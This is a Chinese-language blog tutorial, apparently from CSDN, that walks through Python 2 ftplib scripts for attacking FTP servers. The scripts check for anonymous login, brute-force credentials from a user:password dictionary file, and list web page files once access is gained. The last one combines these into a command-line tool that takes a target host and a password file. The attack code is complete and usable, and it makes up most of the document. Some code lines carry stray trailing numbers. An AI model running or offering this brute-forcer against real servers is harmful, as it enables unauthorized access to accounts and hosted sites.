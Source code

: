**目录**

[判断FTP服务器是否允许匿名登录](#t0)

[暴力破解FTP口令](#t1)

[列出FTP目录内的网页文件](#t2)

[综合](#t3)

* * *

> 环境：Windows python2.7.15

ftplib模块是python下用于ftp服务的模块 。

### 判断FTP服务器是否允许匿名登录

以下代码是判断[FTP服务器](https://so.csdn.net/so/search?q=FTP%E6%9C%8D%E5%8A%A1%E5%99%A8&spm=1001.2101.3001.7020)是否允许匿名登录

我们写了一个anonLogin() 函数，使用 ftp.login()方法进行匿名登录，如果没有抛出异常，说明FTP服务器允许匿名登录。反之不允许。

```
# -*- coding: utf-8 -*-      
"""      
Created on Sun Nov  4 10:25:17 2018      
@author: 小谢      
"""      
import ftplib      
def anonLogin(hostname):      
    try:      
        ftp=ftplib.FTP(hostname)       #实例化FTP连接      1
        ftp.login('anonymous','')      #匿名登录      1
        print '\n[*] '+hostname+' FTP Anonymous Login Succeeded!'      1
        ftp.quit()                    #退出FTP      1
        return True      1
    except Exception,e:               #如果捕获到异常,说明不允许匿名登录      1
        print '\n[-] '+str(hostname)+' FTP Anonymous Login Failed!'      1
        return False      1
anonLogin('127.0.0.1')
```


![](https://img-blog.csdnimg.cn/20181104103258457.png)

### 暴力破解FTP口令

如果ftp服务器不允许匿名登录呢，我们就需要通过密码字典暴力破解ftp口令。我们通过读取密码字典中的用户名和口令，一个一个去尝试登录，如果没捕获到异常，说明用户名和口令正确！密码字典中用户名和口令用 : 分隔。

```
# -*- coding: utf-8 -*-      
"""      
Created on Sun Nov  4 10:36:49 2018      
@author: 小谢      
"""      
import ftplib      
def bruteLogin(hostname,passwdFile):      
    f=open(passwdFile,'r')      
    lines=f.readlines()      1
    for line in lines:      1
        user=line.split(":")[0]    #用户名      1
        passwd=line.split(":")[1].strip("\n")  #密码      1
        print '[+] Trying: '+user+": "+passwd      1
        try:      1
            ftp=ftplib.FTP(hostname)          #实例化FTP连接      1
            ftp.login(user,passwd)            #登录      1
            print '\n[*] '+hostname +' FTP Login Succeeded!'      1
            ftp.quit()       #退出FTP      1
            return(user,passwd)      #返回用户名和密码      2
        except Exception,e:      2
            pass      2
    print '\n[-] Could not brute force FTP credentials!'      2
    return(None,None)      2
a=bruteLogin("127.0.0.1","key.txt")      2
print("User：%s Password：%s"%a)
```


![](https://img-blog.csdnimg.cn/2018110410585786.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 列出FTP目录内的网页文件

在得到了用户名和口令之后，我们就可以列出FTP目录下的文件，看是否存在网页文件。注意，我们这里只能判断FTP目录这一级的文件，而不能递归的判断目录内的文件。因为我们只知道FTP目录的相对路径，而不知道绝对路径！

```
# -*- coding: utf-8 -*-      
"""      
Created on Sun Nov  4 10:51:13 2018       
@author: 小谢      
"""      
import ftplib      
import os      
def returnDefault(ftp):      1
    try:      1
        dirList=ftp.nlst()   #列出FTP目录下的文件或目录      1
    except:      1
        dirList=[]      1
        print '[-] Could not list directory contents!'      1
        return      1
    retList=[]      1
    for filename in dirList:      1
        fn=filename.lower()        #将目录名转换为小写      1
        if '.php' in fn or '.html' in fn or '.asp' in fn or '.jsp' in fn or '.htm' in fn:      2
            print'[+] Found default page:'+filename      2
            retList.append(filename)      2
    return retList      2
def main():      2
    ftp=ftplib.FTP("127.0.0.1")   #实例化FTP连接      2
    ftp.login("admin","root")      2
    a=returnDefault(ftp)      2
    if a:      2
        print("Defalut Page List：")      2
        for i in a:      3
            print(i)      3
main()
```


![](https://img-blog.csdnimg.cn/20181104112842268.png)

### 综合

我们可以结合前面三个脚本，写一个汇总的脚本。当用户执行脚本的时候，没加 -F/-f 参数指定密码字典的时候，就默认查看FTP服务器是否可匿名登录，如果可匿名登录，则列出FTP目录下的网页文件。如果不能匿名登录，就提示不能匿名登录。当指定了-F/-f 参数的话，就暴力破解 FTP 口令，如果破解成功了，则列出FTP目录下是的网页文件。

```
# -*- coding: utf-8 -*-      
"""      
Created on Sun Nov  4 12:12:41 2018      
@author: 小谢      
"""      
import parser      
import optparse      
import ftplib      
def anonLogin(hostname):     #验证是否可匿名登录      1
    try:      1
        ftp=ftplib.FTP(hostname)      1
        ftp.login('','')  #匿名登录      1
        print '\n[*] '+hostname +' FTP Anonymous Login Succeeded!'      1
        return (True,ftp)      1
    except:      1
        print '\n[-] '+str(hostname)+' FTP Anonymous Login Failed!'      1
        return (False,ftp)      1
def bruteLogin(hostname,passwdFile):  #暴力破解      1
    f=open(passwdFile,'r')      2
    lines=f.readlines()      2
    for line in lines:      2
        user=line.split(":")[0]                #用户名      2
        passwd=line.split(":")[1].strip("\n")  #密码      2
        try:      2
            ftp=ftplib.FTP(hostname)      2
            ftp.login(user,passwd)      2
            print '\n[*] '+hostname +' FTP Login Succeeded!'      2
            print("User:%s Password:%s"%(user,passwd))      2
            return(True,ftp)      3
        except Exception,e:      3
            pass      3
    print '\n[-] Could not brute force FTP credentials!'      3
    return(False,ftp)      3
def returnDefault(ftp):     #列出FTP目录下的网页文件      3
    try:      3
        dirList=ftp.nlst()   #列出FTP目录下的文件或目录      3
    except Exception,e:      3
        print e      3
        print '[-] Could not list directory contents!'      4
        return      4
    retList=[]      4
    for filename in dirList:      4
        fn=filename.lower()        #将目录名转换为小写      4
        if '.php' in fn or '.html' in fn or '.asp' in fn or '.jsp' in fn or '.htm' in fn:      4
            print'[+] Found default page:'+filename      4
            retList.append(filename)      4
    return retList      4
def main():       4
    usage="python %prog -H <target host> -F/f <password file>"  #显示文件的用法帮助信息      5
    parser=optparse.OptionParser(usage)   #实例化一个对象      5
    parser.add_option('-H',dest='Host',type='string',help='target host')      5
    parser.add_option('-f','-F',dest='File',type='string',help='target host')      5
    (options,args)=parser.parse_args()      5
    Host=options.Host      5
    File=options.File      5
    if Host==None:      5
        print(parser.usage)      5
        exit(0)      5
    if File==None:      6
        a=anonLogin(Host)      6
        if a[0]:      6
            returnDefault(a[1])        6
    else:      6
        b=bruteLogin(Host,File)      6
        if b[0]:      6
            returnDefault(b[1])      6
    return       6
if __name__=="__main__":      6
    main()
```


![](https://img-blog.csdnimg.cn/20181104131507990.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)